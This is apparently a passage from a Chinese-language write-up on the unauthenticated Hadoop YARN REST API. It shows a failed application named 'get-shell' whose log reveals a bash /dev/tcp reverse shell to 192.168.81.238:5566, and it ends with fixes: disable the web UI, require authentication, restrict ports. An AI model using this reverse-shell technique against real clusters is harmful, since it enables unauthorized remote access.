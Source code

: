 ```
<user>dr.who</user>
<name>get-shell</name>
<queue>default</queue>
<state>FAILED</state>
<finalStatus>FAILED</finalStatus>
<progress>0.0</progress>
<trackingUI>History</trackingUI>
<trackingUrl>http://1aed46d5d18f:8088/cluster/app/application_1688957760252_0016</trackingUrl>
<diagnostics>Application application_1688957760252_0016 failed 2 times due to AM Container for appattempt_1688957760252_0016_000002 exited with exitCode: 1 Failing this attempt.Diagnostics: Exception from container-launch. Container id: container_1688957760252_0016_02_000001 Exit code: 1 Exception message: /bin/bash: connect: Connection refused /bin/bash: /dev/tcp/192.168.81.238/5566: Connection refused Stack trace: ExitCodeException exitCode=1: /bin/bash: connect: Connection refused /bin/bash: /dev/tcp/192.168.81.238/5566: Connection refused at org.apache.hadoop.util.Shell.runCommand(Shell.java:972) at org.apache.hadoop.util.Shell.run(Shell.java:869) at org.apache.hadoop.util.Shell$ShellCommandExecutor.execute(Shell.java:1170) at org.apache.hadoop.yarn.server.nodemanager.DefaultContainerExecutor.launchContainer(DefaultContainerExecutor.java:236) at org.apache.hadoop.yarn.server.nodemanager.containermanager.launcher.ContainerLaunch.call(ContainerLaunch.java:305) at org.apache.hadoop.yarn.server.nodemanager.containermanager.launcher.ContainerLaunch.call(ContainerLaunch.java:84) at java.util.concurrent.FutureTask.run(FutureTask.java:266) at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142) at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617) at java.lang.Thread.run(Thread.java:748) Container exited with a non-zero exit code 1 For more detailed output, check the application tracking page: http://1aed46d5d18f:8088/cluster/app/application_1688957760252_0016 Then click on links to logs of each attempt. . Failing the application.</diagnostics>
<clusterId>1688957760252</clusterId>
<applicationType>YARN</applicationType>
<applicationTags/>
<priority>-1</priority>
<startedTime>1688968516137</startedTime>
<finishedTime>1688969160731</finishedTime>
<elapsedTime>644594</elapsedTime>
<amContainerLogs>http://455c7d01c293:8042/node/containerlogs/container_1688957760252_0016_02_000001/dr.who</amContainerLogs>
<amHostHttpAddress>455c7d01c293:8042</amHostHttpAddress>
<allocatedMB>-1</allocatedMB>
<allocatedVCores>-1</allocatedVCores>
<runningContainers>-1</runningContainers>
<memorySeconds>658947</memorySeconds>
<vcoreSeconds>643</vcoreSeconds>
<queueUsagePercentage>0.0</queueUsagePercentage>
<clusterUsagePercentage>0.0</clusterUsagePercentage>
<preemptedResourceMB>0</preemptedResourceMB>
<preemptedResourceVCores>0</preemptedResourceVCores>
<numNonAMContainerPreempted>0</numNonAMContainerPreempted>
<numAMContainerPreempted>0</numAMContainerPreempted>
<preemptedMemorySeconds>0</preemptedMemorySeconds>
<preemptedVcoreSeconds>0</preemptedVcoreSeconds>
<logAggregationStatus>SUCCEEDED</logAggregationStatus>
<unmanagedApplication>false</unmanagedApplication>
<appNodeLabelExpression/>
<amNodeLabelExpression/>
</app>
```

### 修复
- 如无必要, 关闭`Hadoop Web`管理页面
- 开启身份验证
- 设置"安全组"访问控制策略, 将`Hadoop`默认开放的多个端口对公网全部禁止, 或设置可信任的IP地址访问相关端口和接口